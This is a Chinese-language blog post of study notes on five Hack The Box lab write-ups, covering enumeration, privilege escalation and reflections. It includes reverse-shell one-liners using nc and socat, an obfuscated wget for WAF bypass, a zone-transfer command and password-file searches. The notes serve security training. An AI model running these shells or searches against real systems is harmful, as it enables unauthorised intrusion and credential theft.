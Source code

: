 ```yaml
---
layout: post
title: 《Write-ups for 0xrick's hack-the-box》学习备忘录
description: ""
keywords: ""
---
```


Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categories/hack-the-box/)

### 一、AI

环境概述：Linux、Medium、30'、09 Nov 2019

渗透流程：Nmap -> Web Enumeration -> SQL injection –> Alexa’s Credentials –> SSH as Alexa –> User Flag -> JDWP –> Code Execution –> Root Shell –> Root Flag

知识点：

- Nmap：-sC等价为--script=default，默认调取已知端口的脚本，输出相应服务的详细信息。
- 目录枚举：使用gobuster，`gobuster dir -u http://ai.htb/ -w /usr/share/wordlists/dirb/common.txt -x php`
- 文字转MP3：[https://ttsmp3.com](https://ttsmp3.com)，有中国女声，可读中文。
- MP3转WAV：使用ffmpeg，`ffmpeg -i test.mp3 test.wav`。
- Linux提权：使用`ps aux`查看root权限起的服务，使用`netstat -ntlp`查看敏感端口；在Github上使用关键词搜索exp。

思考：

- 目录枚举：除了gobuster，还有dirb、dirsearch、wfuzz等工具。wfuzz是web模糊处理工具，类似于Burpsuite的intruder功能。
- SQL注入：通过语音识别用户上传的wav文件，执行并输出结果。场景很新颖，hard CTF-style。
- Linux提权：发现Apache Tomcat服务，作者首先确定了此服务无利用价值后，进而深入研究了其Tomcat jdwp服务。

### 二、Player

环境概述：Linux、Hard、40'、06 Jul 2019

渗透流程：Nmap -> Web Enumeration -> FFmpeg HLS Vulnerability –> Arbitrary File Read -> Command Injection –> User Flag -> Credentials in fix.php –> RCE –> Shell as www-data -> Root Flag

知识点：

- 子域名枚举：使用wfuzz，`wfuzz --hc 403 -c -w subdomains-top1mil-5000.txt -H "HOST: FUZZ.player.htb" http://10.10.10.145`。
- 文件泄露：`.swp`, `.bak` and `~`。
- 端口扫描：使用masscan，`masscan -p1-65535 10.10.10.145 --rate=1000 -e tun0`。
- Banner头泄露：通过使用nc，`nc ip port`可查看相应服务泄露的banner头，如SSH可看到版本。
- TTY伪终端：使用python，`python -c "import pty;pty.spawn('/bin/bash')"`。

思考：

- 重定向：渗透过程中将Burpsuite或ZAP打开，便于查看请求历史，避免漏掉重定向前的请求应答页面。
- 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
- TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
- Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。

### 三、Bitlab

环境概述：Linux、Medium、30'、07 Sep 2019

渗透流程：Nmap -> Web Enumeration -> File Upload –> RCE –> Shell as www-data -> Database Access –> Clave’s Password –> SSH as Clave –> User Flag -> Reversing RemoteConnection.exe –> Root’s Password –> SSH as Root –> Root Flag

知识点：

- 信息泄露：使用Nmap发现80端口存在robots.txt，-sC参数可以识别并输出具体内容；robots.txt泄露了大量disallow路径。
- 信息泄露：使用F12或开发者工具，查看HTML源代码，可能存在敏感JS代码。
- 路径关联：robots里的某路径和主仓库路径关联，使用同一静态文件（图片等）可快速确定。
- 数据库：连接数据库的工具不单只有特定的客户端程序，常见的编程语言均内置数据库连接函数，可以巧用。
- 数据库：PostgreSQL安装完后默认自带一个命令行工具psql。
- 文件传输：在反弹的伪终端中，使用scp下载文件，`scp clave@bitlab.htb:/home/clave/RemoteConnection.exe ./`。

思考：

- Nmap：-sC和-sV倒不如直接使用-A，DNS、路由等信息也加入识别。
- 信息泄露：在厂商的授权测试中，巧用Github搜索可能会得到意外的代码信息。
- 文件定位：Windows下使用findstr，`findstr /si password *.xml *.ini *.txt`，查看后缀名文件中含有password关键字的文件；使用dir，`dir /b/s config.*`，查看当前目录所有config.为前缀的文件。Linux下对应grep和find。
- 数据库：若环境支持PHP，可以利用adminer，支持MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, SimpleDB, Elasticsearch, MongoDB。
- URL格式：`postgres://user:pass@host.com:5432/path?k=v#f`，包含了模式（协议）、验证信息、主机、端口、路径、查询参数和查询片段。注意：`@`和`#`。
- 二进制程序：在逆向程序前可先使用关键字进行strings匹配。

### 四、Craft

环境概述：Linux、Medium、30'、13 Jul 2019

渗透流程：Nmap -> Web Enumeration -> RCE –> Shell on Docker Container -> Gilfoyle’s Gogs Credentials –> SSH Key –> SSH as Gilfoyle –> User Flag -> Vault –> One-Time SSH Password –> SSH as root –> Root Flag

知识点：

- 版本控制：查看代码的同时记得查看Git提交记录，即Commit History。
- API泄露：根据API帮助文档，可构造请求数据包，获取服务器对应响应。
- 反弹Shell：使用sh -i、nc，`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`。
- Python：作者写了个EXP demo，流程、输出都很清晰。其中，nc监听并实时返回结果可以利用subprocess子进程的Popen方法，`Popen(["nc","-lvnp",port])`。
- 环境分析：在`/根目录`发现了`.dockerenv`文件，判定当前环境为Docker容器。
- Linux登陆：使用SSH私钥，`ssh -i private.key user@host`。
- 信息搜集：着重关注用户家目录下的`.xxx`文件，往往都是服务的配置文件，可快速定位当前用户常使用的软件服务。
- Vault：一款密码保护工具，可以生成一次性root密码。

思考：

- 信息泄露：常用的版本控制工具除了Git还有SVN；利用公开的代码库搜索可能会有意外发现，可以使用[searchcode](https://searchcode.com)搜索来自Github, Bitbucket, Google Code, Codeplex, Sourceforge, Fedora Project, GitLab等开源仓库的代码内容。
- 环境分析：Linux下可以通过查看etc下的release文件快速判断，`cat /etc/*release`。Docker可以通过查看网络接口来简单判断，`ip a`。
- 文件查找：可以使用`ls -lat`按时间顺序来查看当前目录下的文件。

### 五、Smasher2

环境概述：Linux、Insane、50'、01 Jun 2019

渗透流程：Nmap -> DNS -> Web Enumeration -> auth.py: Analysis -> session.so: Analysis –> Authentication Bypass -> WAF Bypass –> RCE –> Shell as dzonerzy –> Root Flag -> dhid.ko: Enumeration -> dhid.ko: Analysis -> dhid.ko: Exploitation –> Root Shell –> Root Flag

知识点：

- DNS：通过Nmap发现服务器开启了53/tcp DNS服务，使用dig利用域传送漏洞，`dig axfr smasher2.htb @10.10.10.135`。
- 文件对比：使用diff，`diff getinternalusr getinternalpwd`。
- Bypass：使用单引号，`'w'g'e't 'h't't'p':'/'/'1'0'.'1'0'.'x'x'.'x'x'/'t'e's't'`。
- Linux登陆：使用SSH公私钥，将公钥上传至~下的.ssh目录，命名为authorization_keys并赋予600权限，`~/.ssh/authorized_keys`，`chmod 600 ~/.ssh/authorized_keys`。 
- 信息搜集：查看各类服务的日志记录，`/var/log/`。
- 后半部分涉及到逆向和PWN知识。

思考：

- 域传送：区域传输（Zone transfer）为了给同域下的DNS Server做负载均衡，管理员若配置不当可导致跨域传输，泄露域内DNS记录，如未公开的子域名等。
- 域传送漏洞：前提是获取目标Server使用的NS（Name Server），使用dig，`dig +nostats +nocomments +nocmd NS smasher2.htb`；Windows下可使用nslookup交互式界面，指定NS，`server 10.10.10.135`，列出DNS记录，`ls -d smasher2.htb`。
- DNS：标准服务须同时开启53/tcp、53/udp。递归解析时使用53/udp；区域传输因需要可靠传输必须使用53/tcp。
